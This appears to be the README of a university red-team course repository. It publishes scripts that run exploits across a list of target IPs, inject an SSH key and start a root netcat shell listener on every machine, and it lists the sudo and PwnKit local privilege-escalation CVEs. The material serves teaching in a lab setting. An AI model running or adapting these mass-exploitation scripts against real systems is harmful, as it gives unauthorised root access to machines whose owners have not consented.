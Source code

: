 # SDSU Cyber Security Red Team - CS574

## Purpose
As leader of the SDSU CS574 Cyber Security Red Team I have made a bunch of custom tools for attacking students' systems. I am publishing this publicly so that students who have completed the course are able to learn from the tools that I created.

I originally took this course in 2019 and was assigned to Red Team because of some of the real-world applications I demonstrated to the professor, Peter Bartoli. Ever since graduating I have been great friends with Peter and I continue to lead the Red Team every semester.

---

## Test if all users are vulnerable:
```
from TargetMachine import TargetMachine
exec(open("main.py").read())
config = read_config_file()
public_ssh_key_to_inject = config["public_ssh_key_to_inject"]
ips = config["ips"]
credentials = config["credentials"]
users = []
for ip in ips:
	new_user = TargetMachine(ip_address=ip, credentials=credentials, public_ssh_key_to_inject=public_ssh_key_to_inject)
	users.append(new_user)

for user in users:
	for exploit in user.exploits:
		try:
			exploit.test_if_vulnerable()
		except Exception:
			pass

```

## Start a root netcat server on all target machines:
```
from TargetMachine import TargetMachine
exec(open("main.py").read())
config = read_config_file()
public_ssh_key_to_inject = config["public_ssh_key_to_inject"]
ips = config["ips"]
credentials = config["credentials"]
users = []
for ip in ips:
	new_user = TargetMachine(ip_address=ip, credentials=credentials, public_ssh_key_to_inject=public_ssh_key_to_inject)
	users.append(new_user)

for user in users:
	for exploit in user.exploits:
		try:
			exploit.start_root_netcat_server()
		except Exception:
			pass

```

---

## System Vulnerabilities
This section highlights the vulnerabilities that I have found on the defense lab system. These CVEs may or may not be patched by updating the system, I will have to try 

### CVE-2021-3156 (Baron Samedit)
**Type:** local

**Fixed by updating:** ?

### CVE 2021-4034 (PwnKit)
**Type:** local

**Fixed by updating:** ?
